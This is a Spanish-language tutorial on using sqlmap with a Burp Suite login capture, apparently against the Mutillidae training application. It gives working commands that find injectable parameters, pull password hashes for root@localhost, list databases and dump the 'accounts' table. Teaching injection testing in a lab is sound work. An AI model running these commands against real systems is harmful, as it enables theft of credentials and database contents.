









Es una herramienta de terminal que viene instalada por defecto en Kali.
Como parámetros podemos pasarle URL pero también peticiones interceptadas de BurpSuite.
Capturamos un inicio de sesión y lo guardamos a un archivo:

Lo que va a hacer SQL Map es ejecutar todas las consultas SQL inyección necesarias para tratar de obtener información de la base de datos.
Lo primero que vamos a hacer va a ser ponerle esta petición y que encuentre los puntos de inyección que tiene en este caso
sqlmap --flush-session -r Desktop/captura.burp.txt

Pregunta que si debe seguir la re-dirección, le indicamos que no, que siga probando parámetros en la misma.

Indica que parece haber encontrado el tipo de base de datos por lo que le podemos indicar que compruebe o verifique de nuevo o que directamente salte.

Pregunta si queremos análisis más intrusivos o más extensos.
Una vez sabemos algún parámetro inyectable podemos centrar el ataque.
sqlmap -r Desktop/captura.burp.txt --ignore-redirects --technique B -p username --current-user
Tras un rato podemos tener el nombre del usuario como veíamos antes pero de forma automática:

sqlmap -r Desktop/captura.burp.txt --ignore-redirects --batch --technique B -p username -U root@localhost --passwords

Podemos obtener otras cosas como nombre de la base de datos
sqlmap -r Desktop/captura.burp.txt --ignore-redirects --batch --dbs -v 3

Sabiendo los nombres podemos hacer un dump:
sqlmap -r Desktop/captura.burp.txt --ignore-redirects --batch --dump -D mutillidae
Obtenemos las tablas

sqlmap -r Desktop/captura.burp.txt --ignore-redirects --batch --dump -T accounts -D mutillidae

Saca las columnas y posteriormente comienza a sacar todos los datos de la tabla pero tarda un rato porque va letra a letra.